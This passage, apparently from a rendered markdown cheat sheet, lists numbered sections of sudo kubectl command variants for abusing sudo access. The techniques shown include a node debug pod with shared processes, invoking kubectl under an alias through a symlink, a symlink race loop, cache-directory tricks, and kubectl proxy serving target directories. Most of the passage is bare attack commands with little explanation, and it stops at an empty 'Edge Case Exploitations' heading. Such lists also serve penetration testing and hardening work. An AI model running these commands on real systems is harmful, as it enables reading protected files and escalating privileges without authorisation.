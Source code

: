 ```bash
sudo kubectl debug --share-processes=true --image=busybox node/target
sudo kubectl alpha debug --stdin --tty /target/file
sudo kubectl explain --include-extended-apis=true $(cat /target/file)
```

---

## 23. Alternative Binary Invocation

```bash
ln -s $(which kubectl) /tmp/k
sudo /tmp/k proxy --www=/target/dir

sudo exec kubectl proxy --www=/target/dir

sudo -u root sh -c 'exec -a modified_kubectl kubectl proxy --www=/target/dir'
```

---

## 24. File System Race Conditions

```bash
while true; do ln -sf /target/file /tmp/race 2>/dev/null && break; done &
sudo kubectl apply -f /tmp/race &
```

---

## 25. Memory & Cache Exploitation

```bash
sudo kubectl --cache-dir=/tmp/evil get pods
sudo kubectl diff -f <(cat /target/file; echo "---"; kubectl get cm test -o yaml)
sudo kubectl apply --server-dry-run -f /target/file
```

---

## 26. Advanced Proxy Configurations

```bash
sudo kubectl proxy --www=/target1 --www-prefix=/a/ --port=8001 &
sudo kubectl proxy --www=/target2 --www-prefix=/b/ --port=8002 &

sudo kubectl proxy --www=/target/dir --api-prefix=/api/ --www-prefix=/static/
```

---

## 27. Edge Case Exploitations
